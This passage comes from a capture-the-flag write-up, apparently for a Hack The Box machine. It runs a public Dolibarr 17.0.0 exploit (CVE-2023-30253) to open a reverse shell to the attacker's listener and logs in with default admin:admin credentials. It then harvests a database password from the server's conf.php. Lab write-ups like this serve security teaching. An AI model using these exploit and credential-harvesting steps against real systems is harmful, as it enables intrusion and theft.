 > Be sure to review any POC code to make sure that there is nothing malcious directly towards the user/hacker. Hackers should avoid being hacked themselves.
{: .prompt-warning}

### Expoiting Vulnerability
After reviewing the code, lets clone the repo and execute it. (Be sure to start a listener)

```bash
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git
cd Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

python exploit.py http://crm.board.htb login passsword 10.10.14.15 53  
[*] Trying authentication...
[**] Login: login
[**] Password: passsword
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password
```

Alright, so looks like we need legit credentials. Let's look for some.

lol after some more [basic research](https://www.google.com/search?q=dolibarr+17.0.0+default+credentials), there are default creds for `admin:admin`

let's try this again. (Be sure to start a listener)

![Screenshot of script working](<Screenshot of script working.png>)

## Getting a User
-------------------------------------------------------------------

### Enumeration
Looks like we have a foothold as the user `www-data`. This account is normally restricted incase someone is able to hack into it.

#### Enumeration for passwords in files
I like to look for database strings and passwords in the web directory first. The way I approached this was by zipping the whole `/var/www/` directory and exporting it to my machine. 

From there I used vscode to file a file at `/crm.board.htb/htdocs/conf/conf.php` which contained the following uncommented section.

```php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
```